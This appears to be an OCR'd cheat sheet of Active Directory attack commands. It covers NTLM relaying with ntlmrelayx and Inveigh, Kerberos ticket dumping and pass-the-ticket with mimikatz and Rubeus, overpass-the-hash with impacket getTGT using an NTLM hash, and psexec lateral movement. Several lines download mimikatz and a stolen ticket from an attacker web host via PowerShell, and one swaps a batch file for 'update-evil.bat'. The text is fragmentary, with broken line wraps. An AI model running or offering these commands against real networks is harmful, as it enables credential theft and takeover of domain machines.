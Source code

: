 ```

ascii

put update-evil.bat update.bat

## NTML Relay Attacks

python3 smbserver.py -smb2support tmp /tmp

python3 ntlmrelayx.py -tf /opt/kinetic/1out.txt -smb2support

inveigh.exe

type Inveigh-NTLMv2.txt

## PTT & Over PtH

sekurlsa::tickets /export

kerberos::ptt 

rubeus.exe dump /nowrap

rubeus.exe ptt /ticket:

psexec.exe -accepteula 
\\
viperwarhawk
 cmd

python3 ticketConverter.py case.ccache case.kirbi

rubeus.exe ptt /ticket:

mv case.kirbi /var/www/html/kinetic

powershell iwr -uri 
http://xxx/kinetic/case.kirbi
 -outfile .\case.kirbi

base64 case.kirbi |tr -d 
\\
n

python3 getTGT.py kinetic.corp/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299

ntpdate

export KRB5CCNAME=/opt/impacket3/examples/case.ccache

python3 psexec.py  -dc-ip 10.65.1.20 -k -no-pass kinetic.corp/case@viperwarhawk

powershell iwr -uri 
http://xxx/mimikatz.exe
 -outfile .\mimikatz.exe

python3 getTGT.py kinetic/case -dc-ip 10.65.1.20 -hashes :76e1f33b798c3cd6ed74620d21a33299

ntpdate 10.65.1.20

export KRB5CCNAME=/opt/impacket3/examples/case.ccache

python3 psexec.py  -dc-ip 10.65.1.20 -k -no-pass kinetic.corp/case@viperwarhawk
```